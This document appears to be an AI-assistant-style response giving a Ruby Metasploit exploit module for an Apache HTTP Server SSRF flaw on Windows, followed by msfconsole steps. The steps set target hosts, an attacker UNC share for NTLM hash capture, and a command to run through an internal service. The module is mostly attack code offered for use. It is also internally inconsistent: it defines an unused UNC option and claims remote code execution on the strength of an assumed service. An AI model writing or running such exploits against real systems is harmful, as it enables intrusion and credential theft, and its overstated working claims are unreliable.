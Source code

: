 Creating a Remote Code Execution (RCE) Metasploit module for the SSRF vulnerability (CVE-2024-38472) in Apache HTTP Server on Windows is challenging because SSRF itself doesn't directly result in RCE. However, SSRF can often be a step toward achieving RCE, especially if you can use it to interact with internal services or trigger a secondary vulnerability.

### Strategy for RCE via SSRF

To achieve RCE through SSRF, we would generally need:
1. An internal service vulnerable to a specific attack that can be exploited via SSRF.
2. A misconfiguration or additional vulnerability that allows for arbitrary code execution.

For this example, let's assume that we can trigger a secondary service internally that accepts HTTP requests and can be tricked into executing arbitrary code (like a Jenkins server or another service with an exposed API).

### Example Metasploit Module

We'll craft a Metasploit module that attempts to achieve RCE by exploiting the SSRF to interact with an internal service. In this case, we'll simulate an internal Jenkins server with an exposed script console that we can abuse for RCE.

Save the following code as `apache_unc_ssrf_rce.rb` in the `modules/exploits/multi/http` directory of your Metasploit Framework installation.

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Apache HTTP Server Windows UNC SSRF to RCE',
      'Description'    => %q{
        This module exploits a Server-Side Request Forgery (SSRF) vulnerability in Apache HTTP Server on Windows,
        which can potentially be leveraged to achieve Remote Code Execution (RCE) by interacting with internal
        services like Jenkins.
      },
      'Author'         =>
        [
          'Your Name'  # Your name or handle
        ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2024-38472'],
          ['URL', 'https://example.com/advisory'] # Replace with an advisory link if available
        ],
      'DisclosureDate' => 'Aug 03 2024',
      'Platform'       => ['win'],
      'Arch'           => [ARCH_CMD],
      'Targets'        => [
        ['Windows', { 'Arch' => ARCH_CMD, 'Platform' => 'win' }]
      ],
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        Opt::RHOSTS,
        Opt::RPORT(80),
        OptString.new('TARGETURI', [ true, "The base path to the vulnerable application", '/']),
        OptString.new('UNC_SERVER', [ true, "UNC path of the malicious server to receive NTLM hashes", '\\\\attacker-server\\share']),
        OptString.new('INTERNAL_SERVICE', [ true, "Internal service URL to exploit for RCE", 'http://internal-service/script']),
        OptString.new('CMD', [ true, "Command to execute", 'calc.exe'])
      ])
  end

  def check
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path),
    })

    if res && res.headers['Server'] && res.headers['Server'].include?('Apache')
      return Exploit::CheckCode::Appears
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    ssrf_payload = {
      'method'  => 'GET',
      'uri'     => normalize_uri(target_uri.path),
      'version' => '1.1',
      'headers' => {
        'Host' => datastore['RHOSTS'],
        'Content-Type' => 'application/x-www-form-urlencoded'
      },
      'data'    => "url=#{datastore['INTERNAL_SERVICE']}?script=#{Rex::Text.uri_encode(datastore['CMD'])}"
    }

    begin
      print_status("Sending SSRF request to #{datastore['RHOSTS']}:#{datastore['RPORT']}#{target_uri.path}")
      res = send_request_cgi(ssrf_payload)

      if res && res.code == 200
        print_good("Successfully triggered the internal service")
      else
        print_error("Failed to trigger the internal service: #{res.inspect}")
      end
    rescue ::Rex::ConnectionError => e
      print_error("Connection failed: #{e.message}")
    rescue ::Interrupt
      print_status("User interrupted the module execution")
    rescue ::Exception => e
      print_error("An unexpected error occurred: #{e.message}")
    end
  end
end
```

### Usage Instructions

1. **Save the Module**:
   Save the module as `apache_unc_ssrf_rce.rb` in the `modules/exploits/multi/http` directory of your Metasploit Framework installation.

   ```bash
   /path/to/metasploit-framework/modules/exploits/multi/http/apache_unc_ssrf_rce.rb
   ```

2. **Load Metasploit**:
   Start Metasploit Framework by opening a terminal and running:

   ```bash
   msfconsole
   ```

3. **Use the New Module**:
   In the Metasploit console, load the new exploit module using the following command:

   ```bash
   use exploit/multi/http/apache_unc_ssrf_rce
   ```

4. **Configure and Run**:
   Set the necessary options, such as `RHOSTS`, `RPORT`, `TARGETURI`, `UNC_SERVER`, `INTERNAL_SERVICE`, and `CMD`. Then run the module.

   ```bash
   msf6 > use exploit/multi/http/apache_unc_ssrf_rce
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set RHOSTS target_ip
   RHOSTS => target_ip
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set RPORT 80
   RPORT => 80
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set TARGETURI /
   TARGETURI => /
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set UNC_SERVER \\\\attacker-server\\share
   UNC_SERVER => \\attacker-server\share
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set INTERNAL_SERVICE http://internal-service/script
   INTERNAL_SERVICE => http://internal-service/script
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > set CMD calc.exe
   CMD => calc.exe
   msf6 exploit(multi/http/apache_unc_ssrf_rce) > run
   ```

### Important Considerations
- Ensure you have the appropriate permissions before testing or exploiting any systems.
- This module is designed for educational and testing purposes. Always test in a safe and controlled environment before using it on any production systems.

This enhanced Metasploit module sends a crafted request to the vulnerable Apache HTTP server on Windows, attempting to trigger the SSRF vulnerability and leverage it to achieve RCE by interacting with an internal service. Adjust the payload and module as necessary based on the specific nature of the vulnerability and the target environment.

